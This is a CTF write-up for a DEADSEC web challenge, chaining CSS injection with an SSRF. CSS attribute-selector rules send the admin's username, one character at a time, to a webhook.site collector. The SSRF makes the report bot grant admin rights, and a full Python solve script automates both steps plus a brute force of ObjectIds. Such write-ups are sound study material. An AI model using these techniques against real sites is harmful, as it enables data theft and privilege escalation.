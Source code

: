 ```yaml
---
ai_date: '2025-04-27 05:15:05'
ai_summary: CSS Injection used to find flag characters, followed by SSRF to gain admin
  rights and find flag ID, then brute-forced flag using CSS rules
ai_tags:
- css-injection
- ssrf
- brute-force
created: 2024-07-27T02:55
description: I do love CSS injection
points: 360
solves: 15
tags:
- css-injection
updated: 2024-08-04T19:22
---
```


> Color your username colorful!

## First Part

To access the admin's username, we can use the value of edit page's `<input>`.
`/post/edit/{pid}`

```html
<p>Author: <input class="author" type="text" value="{{author.username}}" disabled></p>
<p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
```

### CSS Injection

To do this I decided to use CSS selectors, because `xss` has prevented naïve XSS methods.

```css
input.user[value^="DEAD{flag_"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_');
}
```

If I received a request, that means the flag indeed starts with that sequence, we can also use multiple rules like this each with a different url query so I would know which rule in particular activated.

```css
input.user[value^="DEAD{flag_a"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_a');
}
input.user[value^="DEAD{flag_b"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_b');
}
input.user[value^="DEAD{flag_c"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_c');
}
```

After we receive a request, we update the payload with the new found char, and guess the next char.

### Payload

We will register a new account for every attempt, and add multiple CSS rules checking multiple "next character".

The payload is placed inside `personalColor`, as we can see, that's the only place where triple bar (i.e. no escape) is used.

```css
.author {
    color: {{{ author.personalColor }}}
}

.user {
    color: {{{ user.personalColor }}}
}
```

The backend uses `xss` library which will escape all occurrences of `<>` and I think it is not possible to exit the `<style>` tag.
## Second Part

To view notices we have to be admins, we can make the report bot grant us admin rights.

This is a simple SSRF to `https://TARGET/admin/report?url=http://localhost:1337/admin/grant?username=USERNAME`.

After logging out and logging in again, we can now see the notice page, where we can find the mongoose id of the two entries sandwiching the flag.

`66a4b8f9d40a5a2b039f2d68 66a4b8ffd40a5a2b039f2d6a`
### Find flag's id
But flag's id is hidden, how would we find it?

```js
await delay(randomDelay());
await db.notices.insertOne({ title: "asdf", content: "asdf" });

await delay(randomDelay());
await db.notices.insertOne({ title: "flag", content: "FAKE_FLAG}" });

await delay(randomDelay());
await db.notices.insertOne({ title: "qwer", content: "qwer" });
```

Mongoose ids are actually encoded timestamps, so by exploring all "in-between" values, we can find the flag's id.
## Solve Script

To solve the first part, you have to start run the script every time you add a new character.

I've heard of easier & faster recursive `@import` methods but thought this is simpler.

```python
import urllib.parse
import re
import string
import random
import requests


def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))


target = "39c1490373bbf326a5023003.deadsec.quest"


def register(s, user, passw, payload):
    s.post(f"https://{target}/auth/register", json={"username": user,
                                                    "password": passw,
                                                    "personalColor": payload})


def login(s, user, passw):
    r = s.post(f"https://{target}/auth/login", json={"username": user, "password": passw})
    s.cookies.set('accessToken', r.json()['accessToken'])


def gain_admin(s, user):
    r = s.get(f"https://{target}/admin/report?url=http://localhost:1337/admin/grant?username={user}").json()
    print("gain_admin", r)


def notice_ids(s):
    r = s.get(f"https://{target}/admin/notice/").text
    g = re.findall(r"/admin/notice/([a-f0-9]+)", r)
    id1, id2 = g
    print("found ids", id1, id2)
    d1 = int(id1[:8], 16)
    d2 = int(id2[:8], 16)
    p1 = int(id1[8:], 16)
    p2 = int(id2[8:], 16)
    print("trying a total of", (d2-d1+1)*(p2-p1+1), "combinations")  # probably not need that many
    for _1 in range(d1, d2+1):
        for _2 in range(p1, p2+1):
            try:
                r = s.get(f"https://{target}/admin/notice/{_1:08x}{_2:016x}").text
                if "flag" in r:
                    f = re.search(r"<div class=\"post-content\">([^<]+)", r).group(1).strip()
                    print("flag part 2", f)
            except:
                pass


def report_post(s):
    pid = s.get(f"https://{target}/post/all").json()[0]['_id']
    url = f"http://localhost:1337/post/edit/{pid}"
    s.get(f"https://{target}/admin/report?url={urllib.parse.quote(url)}")


def make_post(s):
    s.post(f"https://{target}/post/write", json={"title": "test", "content": "test"})


def str_to_css_hex(s):
    special_characters = r'[_]'
    return re.sub(special_characters, lambda match: f'\\{ord(match.group(0)):04x}', s)


def tryFlag(pres):
    s = requests.session()
    try:
        print("trying", pres)
        user = id_generator(7)
        passw = id_generator(7)
        _pres = '\n'.join([f"""input.user[value^="{pre}"]{{
background: url('https://webhook.site/?prefix={urllib.parse.quote(pre)}');
}}""" for pre in pres])
        payload = f"""
#000;}}
{_pres}
*{{""".strip()
        register(s, user, passw, payload)
        login(s, user, passw)
        make_post(s)
        report_post(s)
        print("done", pres)
    except Exception as e:
        print('error!', e)
        tryFlag(pres)
        return None


def extendFlag(flag_pre):
    w_size = 25
    for I in range(0, len(string.printable), w_size):
        chrs = [string.printable[I+i] for i in range(min(w_size, len(string.printable)-I))]
        pres = [str_to_css_hex(flag_pre+c) for c in chrs]
        random.shuffle(pres)
        tryFlag(pres)


def second_part():
    s = requests.session()
    register(s, "kumo", "kumo", "#000")
    login(s, "kumo", "kumo")
    print("login")
    gain_admin(s, "kumo")
    s.cookies.clear()
    login(s, "kumo", "kumo")
    notice_ids(s)


# extendFlag("DEAD{")
second_part()   # c010rful_w3b_with_c55}
```

```flag
DEAD{Enj0y_y0ur_c010rful_w3b_with_c55}
```

## Failed Attempts

- Using selection hash `#:~:text={urllib.parse.quote(flag)}` didn't work on remote for some reason, worked on local browser.
- Using svg ligatures generated fonts, and look for scrollbars also didn't work for some reason, the scrollbar selector always activates.
- I spent 90% of the time trying to leak the view page, and totally forgot the edit page has a input element.